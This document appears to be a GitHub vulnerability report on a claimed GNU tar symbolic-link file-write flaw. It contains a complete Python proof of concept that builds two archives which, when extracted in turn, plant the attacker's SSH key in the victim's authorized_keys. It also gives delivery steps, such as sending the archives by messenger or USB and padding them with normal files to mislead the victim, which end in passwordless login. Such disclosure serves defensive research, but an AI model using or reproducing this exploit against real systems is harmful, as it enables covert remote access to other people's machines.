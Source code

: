 # Gnu tar component has a symbolic link arbitrary file write vulnerability
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
poc explanation： 
1. Modify tar_poc.py  
Line 12: obj1.linkname = "../../../../../../../home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "../../../../../../../home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:
![](./imgs/Gnu_tar_vuln_1.png)
2、Successfully overwrote .ssh/authorized_keys：
![](./imgs/Gnu_tar_vuln_2.png)
3、Finally, the attacker can log into the victim's machine through SSH without password.
![](./imgs/Gnu_tar_vuln_3.png)

Reproduction video：  
[Watch the repro video](./imgs/Gnu_tar_vuln_3.mp4)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.

An attacker can use the above risk points to attack by making two tar compressed packages:  
- a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
- b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
- c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
- d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  
